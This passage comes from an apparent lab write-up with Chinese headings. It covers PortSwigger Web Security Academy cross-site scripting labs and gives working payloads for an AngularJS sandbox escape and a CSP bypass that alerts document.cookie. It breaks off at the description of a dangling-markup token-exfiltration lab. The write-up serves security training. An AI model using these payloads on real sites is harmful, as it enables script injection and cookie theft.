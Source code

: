 ### 解答

攻擊點
```javascript=
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
$scope.query = {};
var key = 'search';
$scope.query[key] = '123';
$scope.value = $parse(key)($scope.query);
});
```


Payload

```
https://ac051fd81e10a67bc0a5302500f30066.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
## [Lab: Reflected XSS with AngularJS sandbox escape and CSP](https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox/lab-angular-sandbox-escape-and-csp)
### 題目敘述
 This lab uses CSP and AngularJS.

To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie. 
### 題目解釋
### 解答

Payload

```
<script>
location='https://acdb1f551ee495ccc01203c100ba0092.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

## [Lab: Reflected XSS protected by very strict CSP, with dangling markup attack](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
### 題目敘述
 This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and exfiltrates the CSRF token using Burp Collaborator. You need to label your vector with the word "Click" in order to induce the simulated victim user to click it. For example:
`<a href="">Click me</a>`
